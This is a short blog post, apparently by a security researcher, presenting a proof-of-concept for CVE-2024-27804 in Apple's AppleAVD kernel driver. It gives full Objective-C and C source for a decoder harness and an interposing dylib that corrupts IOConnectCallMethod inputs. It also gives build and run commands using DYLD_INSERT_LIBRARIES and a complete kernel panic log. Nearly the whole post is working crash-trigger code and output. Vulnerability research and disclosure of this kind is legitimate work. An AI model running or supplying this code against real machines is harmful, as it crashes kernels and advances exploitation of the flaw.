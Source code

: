 ```yaml
---
layout: post
title: "CVE-2024-27804 Vulnerability in AppleAVD"
date: 2024-05-14 1:1:1 +0100
categories: fuzzing
---
```


[https://github.com/R00tkitSMM/CVE-2024-27804](https://github.com/R00tkitSMM/CVE-2024-27804)

tested on M1

{% highlight shell %}
// vtdecode.m 
#include <dlfcn.h>
#include <stdio.h>
#import <AVFoundation/AVFoundation.h>

typedef void (*t_VTApplyRestrictions)(int arg);
t_VTApplyRestrictions VTApplyRestrictions;

int __attribute__((noinline)) fuzz(const char *filename) {
  @autoreleasepool {
    NSError *error = nil;
    NSURL *fileURL = [NSURL
        fileURLWithPath:[NSString stringWithCString:filename
                                           encoding:NSASCIIStringEncoding]];
    AVAsset *asset = [AVAsset assetWithURL:fileURL];
    if (asset == nil)
      return 0;

    AVAssetReader *reader = [[AVAssetReader alloc] initWithAsset:asset
                                                           error:&error];
    if (reader == nil)
      return 0;

    NSArray *tracks = [asset tracksWithMediaType:AVMediaTypeVideo];
    if (tracks == nil || ([tracks count] == 0))
      return 0;

    AVAssetTrack *track = tracks[0];

    NSDictionary *outputSettings = [NSDictionary
        dictionaryWithObject:[NSNumber numberWithInt:kCMPixelFormat_32BGRA]
                      forKey:(id)kCVPixelBufferPixelFormatTypeKey];
    AVAssetReaderTrackOutput *output = [AVAssetReaderTrackOutput
        assetReaderTrackOutputWithTrack:track
                         outputSettings:outputSettings];

    [reader addOutput:output];
    [reader startReading];

    for (int frame = 0; frame < 2; frame++) {
      // printf("Frame %d\n", frame);

      CMSampleBufferRef sampleBuffer = [output copyNextSampleBuffer];
      if (sampleBuffer == nil)
        break;

      CMSampleBufferInvalidate(sampleBuffer);
      CFRelease(sampleBuffer);
      sampleBuffer = NULL;
    }
  }

  return 1;
}

int main(int argc, const char *argv[]) {
  if (argc < 2) {
    printf("Usage: %s <filename>\n", argv[0]);
    return 0;
  }

  // make decoding run in the current process instead of VTDecoderXPCService
  void *toolbox = dlopen("/System/Library/Frameworks/VideoToolbox.framework/"
                         "Versions/A/VideoToolbox",
                         RTLD_NOW);
  if (!toolbox) {
    printf("Error loading library\n");
    return 0;
  }
  VTApplyRestrictions =
      (t_VTApplyRestrictions)dlsym(toolbox, "VTApplyRestrictions");
  if (!VTApplyRestrictions) {
    printf("Error finding VTApplyRestrictions symbol\n");
    return 0;
  }
  VTApplyRestrictions(1);

  fuzz(argv[1]);

  return 0;
}
{% endhighlight %}

{% highlight cpp %}
// flip.c
#include <IOKit/IOKitLib.h>
#include <dlfcn.h>
#include <execinfo.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/sysctl.h>
#include <time.h>

void flip_bit(void *buf, size_t len) {

  if (!len)
    return;
  size_t offset = rand() % len;

  ((int *)buf)[offset] = 0x41414141;
}

kern_return_t fake_IOConnectCallMethod(mach_port_t connection,
                                       uint32_t selector, uint64_t *input,
                                       uint32_t inputCnt, void *inputStruct,
                                       size_t inputStructCnt, uint64_t *output,
                                       uint32_t *outputCnt, void *outputStruct,
                                       size_t *outputStructCntP) {

  flip_bit(inputStruct, inputStructCnt);

  return IOConnectCallMethod(connection, selector, input, inputCnt, inputStruct,
                             inputStructCnt, output, outputCnt, outputStruct,
                             outputStructCntP);
}

typedef struct interposer {
  void *replacement;
  void *original;
} interpose_t;

__attribute__((used)) static const interpose_t interposers[]
    __attribute__((section("__DATA,__interpose"))) = {
        {.replacement = (void *)fake_IOConnectCallMethod,
         .original = (void *)IOConnectCallMethod}};

{% endhighlight %}

{% highlight shell %}
clang -arch arm64 -o vtdecode vtdecode.m -framework VideoToolbox -framework Foundation -framework CoreMedia  -framework CoreVideo -framework  AVFoundation
clang -dynamiclib -o flip.dylib flip.c -framework IOKit
{% endhighlight %}

{% highlight shell %}
DYLD_INSERT_LIBRARIES=./flip.dylib ./vtdecode input_poc/orientation-normal-fragmented.mp4.mov
{% endhighlight %}

{% highlight shell %}

panic(cpu 4 caller 0xfffffe0026851cdc): Unaligned kernel data abort. at pc 0xfffffe0026aed514, lr 0xfffffe0026aed5d8 (saved state: 0xfffffe3a396e3200)
	  x0:  0x000000000000000e x1:  0xfffffe1002bdc01b  x2:  0x0000000000000000  x3:  0xfffffe3a396e3444
	  x4:  0xfffffe3a396e344c x5:  0x000000000002d1f4  x6:  0x0000000000000000  x7:  0xffffffffffffffff
	  x8:  0x0000000000000004 x9:  0xfffffe1002bdc01f  x10: 0x0000000000000000  x11: 0x0000000000000002
	  x12: 0x0000000000000004 x13: 0x0000000000000000  x14: 0x0000000000000000  x15: 0x0000000000000000
	  x16: 0xfffffe0026aeda90 x17: 0xfffffe0026aed9fc  x18: 0x0000000000000000  x19: 0xfffffe1b40e90000
	  x20: 0x0000000000000000 x21: 0x0000000000000000  x22: 0xfffffe1002bdc000  x23: 0x0000000000000001
	  x24: 0x0000000000000000 x25: 0xfffffe1002bdc024  x26: 0x000000000000001b  x27: 0x00000000000008b0
	  x28: 0x000000000000001b fp:  0xfffffe3a396e3610  lr:  0xfffffe0026aed5d8  sp:  0xfffffe3a396e3550
	  pc:  0xfffffe0026aed514 cpsr: 0x60401208         esr: 0x96000021          far: 0xfffffe1002bdc01b

Debugger message: panic
Memory ID: 0x6
OS release type: User
OS version: 23C71
Kernel version: Darwin Kernel Version 23.2.0: Wed Nov 15 21:53:34 PST 2023; root:xnu-10002.61.3~2/RELEASE_ARM64_T8103
Fileset Kernelcache UUID: 6DAC2CF8E68E8F436296A697E29AAD44
Kernel UUID: E245D804-1FA3-31E2-90BC-B4DF75B2129E
Boot session UUID: 52885412-0864-4DFF-8E9E-36C3C7BC8B88
iBoot version: iBoot-10151.61.4
secure boot?: YES
roots installed: 0
Paniclog version: 14
KernelCache slide: 0x000000001dac4000
KernelCache base:  0xfffffe0024ac8000
Kernel slide:      0x000000001dacc000
Kernel text base:  0xfffffe0024ad0000
Kernel text exec slide: 0x000000001efd8000
Kernel text exec base:  0xfffffe0025fdc000
mach_absolute_time: 0x1c4f4c5a5
Epoch Time:        sec       usec
  Boot    : 0x65a56518 0x000b7c0f
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x65a5664f 0x00072ae4

Zone info:
  Zone map: 0xfffffe100f2dc000 - 0xfffffe300f2dc000
  . VM    : 0xfffffe100f2dc000 - 0xfffffe14dbfa8000
  . RO    : 0xfffffe14dbfa8000 - 0xfffffe1675940000
  . GEN0  : 0xfffffe1675940000 - 0xfffffe1b4260c000
  . GEN1  : 0xfffffe1b4260c000 - 0xfffffe200f2d8000
  . GEN2  : 0xfffffe200f2d8000 - 0xfffffe24dbfa4000
  . GEN3  : 0xfffffe24dbfa4000 - 0xfffffe29a8c70000
  . DATA  : 0xfffffe29a8c70000 - 0xfffffe300f2dc000
  Metadata: 0xfffffe3a1c3ac000 - 0xfffffe3a243ac000
  Bitmaps : 0xfffffe3a243ac000 - 0xfffffe3a27194000
  Extra   : 0 - 0

CORE 0 recently retired instr at 0xfffffe00261886e4
CORE 1 recently retired instr at 0xfffffe00261886e4
CORE 2 recently retired instr at 0xfffffe00261886e4
CORE 3 recently retired instr at 0xfffffe00261886e4
CORE 4 recently retired instr at 0xfffffe0026186ee8
CORE 5 recently retired instr at 0xfffffe00261886e4
CORE 6 recently retired instr at 0xfffffe00261886e4
CORE 7 recently retired instr at 0xfffffe00261886e4
TPIDRx_ELy = {1: 0xfffffe1b448bd030  0: 0x0000000000001004  0ro: 0x000000010061c320 }
CORE 0 PVH locks held: None
CORE 1 PVH locks held: None
CORE 2 PVH locks held: None
CORE 3 PVH locks held: None
CORE 4 PVH locks held: None
CORE 5 PVH locks held: None
CORE 6 PVH locks held: None
CORE 7 PVH locks held: None
CORE 0: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a39a13ef0
CORE 1: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a392b7ef0
CORE 2: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37df7ef0
CORE 3: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37c8fef0
CORE 4 is the one that panicked. Check the full backtrace for details.
CORE 5: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39033ef0
CORE 6: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39893ef0
CORE 7: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a396a7ef0
Compressor Info: 3% of compressed pages limit (OK) and 2% of segments limit (OK) with 0 swapfiles and OK swap space
Panicked task 0xfffffe1b46695e18: 14298 pages, 13 threads: pid 2352: vtdecode
Panicked thread: 0xfffffe1b448bd030, backtrace: 0xfffffe3a396e2930, tid: 184820
		  lr: 0xfffffe0026035568  fp: 0xfffffe3a396e29c0
		  lr: 0xfffffe002617fa24  fp: 0xfffffe3a396e2a30
		  lr: 0xfffffe002617de84  fp: 0xfffffe3a396e2b20
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e2b30
		  lr: 0xfffffe0026034e48  fp: 0xfffffe3a396e2ee0
		  lr: 0xfffffe002684726c  fp: 0xfffffe3a396e2f00
		  lr: 0xfffffe0026851cdc  fp: 0xfffffe3a396e3080
		  lr: 0xfffffe002617f890  fp: 0xfffffe3a396e30f0
		  lr: 0xfffffe002617e138  fp: 0xfffffe3a396e31e0
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e31f0
		  lr: 0xfffffe0026aed5d8  fp: 0xfffffe3a396e3610
		  lr: 0xfffffe0026ad6fe4  fp: 0xfffffe3a396e3720
		  lr: 0xfffffe0026ad66b4  fp: 0xfffffe3a396e3790
		  lr: 0xfffffe0026ad4e48  fp: 0xfffffe3a396e37d0
		  lr: 0xfffffe00267a0168  fp: 0xfffffe3a396e3810
		  lr: 0xfffffe00267a0484  fp: 0xfffffe3a396e39a0
		  lr: 0xfffffe002614b294  fp: 0xfffffe3a396e3ac0
		  lr: 0xfffffe002603bce8  fp: 0xfffffe3a396e3b60
		  lr: 0xfffffe002600edd4  fp: 0xfffffe3a396e3bc0
		  lr: 0xfffffe00260273f8  fp: 0xfffffe3a396e3c60
		  lr: 0xfffffe0026027864  fp: 0xfffffe3a396e3d50
		  lr: 0xfffffe0026173698  fp: 0xfffffe3a396e3e20
		  lr: 0xfffffe002617e18c  fp: 0xfffffe3a396e3f10
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e3f20
      Kernel Extensions in backtrace:
         com.apple.driver.AppleAVD(737.1)[63D957B3-2E48-36EA-880C-6F0BE3DE16A6]@0xfffffe0026a37e00->0xfffffe0026b04b43
            dependency: com.apple.driver.AppleARMPlatform(1.0.2)[9FC0A536-5BC6-33D5-911A-5A46BDDBBCEF]@0xfffffe00269dfe20->0xfffffe0026a3295b
            dependency: com.apple.driver.FairPlayIOKit(71.3.0)[AD212727-D14F-3DA2-8974-6CEA43B45BC1]@0xfffffe0027e23b50->0xfffffe0027f19aef
            dependency: com.apple.iokit.CoreAnalyticsFamily(1)[0896C7D3-89F2-3D56-A301-5CB0FE0BBEAC]@0xfffffe0027cb1f60->0xfffffe0027cb9d4b
            dependency: com.apple.iokit.IOSurface(352.0.3)[0351AFC2-D85C-3BB5-B9C6-C8C0F6C7A01D]@0xfffffe00288a7dc0->0xfffffe00288d85ab
{% endhighlight %}
